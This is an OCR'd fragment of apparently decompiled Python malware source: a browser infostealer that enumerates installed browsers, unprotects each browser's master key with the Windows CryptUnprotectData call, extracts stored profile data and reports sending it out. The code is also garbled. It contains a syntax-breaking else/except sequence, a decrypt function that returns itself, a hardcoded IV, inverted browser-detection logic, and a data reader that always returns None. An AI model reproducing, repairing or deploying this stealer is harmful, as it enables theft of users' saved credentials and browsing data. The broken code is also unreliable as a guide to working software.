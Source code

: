 ```py
                print(f'\t [*] Data sent successfully for {browser_name}/{type_of_data}')
            return None
    else:  # inserted
        return None
    except Exception as e:
        print(f'\t [-] Error sending data: {e}')
        return None

def decrypt_my_data(encrypted_file):
    with open('encrypted.bin', 'rb') as f:
        content = f.read()
    iv = '1234567891011123'
    encrypted_data = '6b4781995cf5e4e02c2625b3d1ac6389dbaf68fb5649a3c24ede19465f470412'
    key = CryptUnprotectData(content, None, None, None, 0)[1]
    key = bytes.fromhex(key)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    data = cipher.decrypt(encrypted_data)
    return decrypt_my_data

def get_data(path: str, profile: str, key, type_of_data):
    db_file = f"{path}\\{profile}{type_of_data['file']}"
    if not os.path.exists(db_file):
        pass  # postinserted
    return None

def convert_chrome_time(chrome_time):
    return (datetime(1601, 1, 1) + timedelta(microseconds=chrome_time)).strftime('%d/%m/%Y %H:%M:%S')

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x] + '\\Local State'):
            pass  # postinserted
        else:  # inserted
            available.append(x)
    return available
if __name__ == '__main__':
    available_browsers = installed_browsers()
    for browser in available_browsers:
        browser_path = browsers[browser]
        master_key = get_master_key(browser_path)
        print(f'Getting Stored Details from {browser}')
        for data_type_name, data_type in data_queries.items():
            print(f"\t [!] Getting {data_type_name.replace('_', ' ').capitalize()}")
            notdefault = ['opera-gx']
            profile = 'Default'
            profile = '' if browser in notdefault else ''
            data = get_data(browser_path, profile, master_key, data_type)
            save_results(browser, data_type_name, data)
            print('\t------\n')
```
